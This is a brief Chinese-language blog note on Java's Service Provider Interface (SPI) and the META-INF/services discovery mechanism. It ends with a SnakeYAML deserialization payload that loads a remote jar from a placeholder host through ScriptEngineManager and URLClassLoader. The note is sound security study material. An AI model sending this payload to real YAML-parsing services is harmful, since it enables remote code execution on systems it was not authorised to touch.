 ```yaml
---
title: "SPI"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:38:59+08:00
tags: ["java"]
draft: false
---
```


SPI（Service Provider Interface），是 JDK 内置的一种服务提供发现机制，可以用来启用
框架扩展和替换组件，主要是被框架的开发人员使用，比如 `java.sql.Driver` 接口，其他
不同厂商可以针对同一接口做出不同的实现，MySQL 和 PostgreSQL 都有不同的实现提供给用
户，而 Java 的 SPI 机制可以为某个接口寻找服务实现。Java 中 SPI 机制主要思想是将装配的控
制权移到程序之外，在模块化设计中这个机制尤其重要，其核心思想就是解耦。

当服务的提供者提供了一种接口的实现之后，需要在 classpath 下的 `META-INF/services/`
目录里创建一个以服务接口命名的文件，这个文件里的内容就是这个接口的具体的实现类。
当其他的程序需要这个服务的时候，就可以通过查找这个 jar 包（一般都是以 jar 包做依赖）
的 `META-INF/services/` 中的配置文件，配置文件中有接口的具体实现类名，可以根据这个
类名进行加载实例化，就可以使用该服务了。

相关利用：SnakeYaml 反序列化链利用 ScriptEngineManager 通过 SPI 远程加载 jar 包

```nil
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://1.1.1.1:80/yaml-payload.jar"]
  ]]
]
```
